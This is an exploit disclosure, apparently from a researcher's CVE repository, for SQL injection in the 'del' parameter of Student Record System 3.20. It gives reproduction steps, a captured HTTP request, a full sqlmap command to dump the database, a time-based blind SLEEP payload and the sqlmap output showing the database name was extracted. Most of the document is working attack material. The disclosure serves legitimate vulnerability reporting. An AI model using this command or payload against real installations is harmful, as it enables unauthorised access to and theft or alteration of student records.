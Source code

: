 # Student Record System - SQL Injection - 3
+ **Exploit Title:** Student Record System - SQL Injection - 3
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/student-record-system-php/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7216
+ **Version:** 3.20
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Student Record Managment System 3.20 allows SQL Injection via the 'del' parameter in "http://localhost/studentrecordms/manage-courses.php?del=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/studentrecordms/manage-courses.php"
+ Then click delete course button. 
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /studentrecordms/manage-courses.php?del=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'del' parameter to dump the database.
```
sqlmap -r r.txt -p del --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: del (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: del=1' AND (SELECT 4962 FROM (SELECT(SLEEP(5)))mrQr)-- dRLm
---
[01:40:43] [INFO] the back-end DBMS is MySQL
[01:40:43] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:40:48] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[01:40:48] [INFO] retrieved: 
[01:40:58] [INFO] adjusting time delay to 1 second due to good response times
studentrecorddb
current database: 'studentrecorddb'
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 084512](https://github.com/BurakSevben/CVEs/assets/117217689/d424d4ac-1dd5-4b55-bb84-efca0bd0d26f)
